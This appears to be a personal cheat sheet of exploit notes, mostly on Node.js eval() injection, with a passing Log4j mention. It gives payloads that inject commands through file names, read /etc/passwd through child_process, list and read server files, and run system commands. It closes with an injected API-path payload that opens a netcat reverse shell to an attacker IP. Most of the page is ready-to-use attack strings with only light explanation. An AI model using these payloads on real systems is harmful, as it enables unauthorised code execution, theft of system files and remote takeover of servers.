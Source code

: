 # Exploits
**LOG4J**
---------

~logs/log4j "X-api-version" exploit

If there's a file upload feature on the web or file-handling being done in general, try stupid stuff like `file.txt;id` or `file.txt' id`, to see if the base system is handling files in the commandline, which might give way to easy rce :)

[https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44) 

Exploiting a vulnerable eval() function in node js to gain rce and reverse shell. The `Node.js eval()` function is easy to exploit if data passed to it is not filtered correctly.

```text-plain
root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout
```

**Know your weapons**

`proces`,`fs`, `child_process,` `ncat`

`process.cwd()` for example returns the current working directory of the Node.js process.

![](Exploits/1LvUGtmiMIwushqrISyoRyA.png)

File System:
------------

fs class
--------

A potential goal of an attacker might be to read the contents of a file from the server. This can be achieved with the Node.js `fs module` which has to be required with `require('fs')`. All the methods have asynchronous as well as synchronous versions. It allows one to work with the file system (accessing, managing and editing files, etc.). It covers a great number of methods and properties.

readdir()
---------

Just as the `dir` command in MS Windows or the `ls` command on Linux, it is possible to use the method `readdir` or `readdirSync` of the `fs` class to list the content of the directory . The difference between these both functions is that the latter is the synchronous version.

The ‘.’ points to the current directory. The ‘..’ reads the previous directory.

```text-plain
require('fs').readdirSync('.').toString()
require('fs').readdirSync('..').toString()
```

**readFile()**
--------------

Once the file names are obtained, the attacker can use other commands to view the content of the data. The methods `readFile` or `readFileSync` provide the option to read the entire content of a file. Again the latter is the synchronous version. As argument just pass the path to the file for the synchronous version.

```text-plain
require('fs').readFileSync(<filename>)
```

RCE:

```text-plain
require('child_process').exec('ls')
```

Child Process
-------------

`child_process` module allows to create child process in Node.js. There are 4 different ways to create a child process: `spawn()`, `fork()`, `exec()`, `execFile`.

**Reverse Shell with child\_process.execSync(command\[,options\])**
-------------------------------------------------------------------

This will send a reverse shell back to the local machine. The IP address is the one defined by the attacker.

`/api/order/from/1/range/require("child_process").exec('nc <IP Attacker> 4445 -e /bin/sh')`
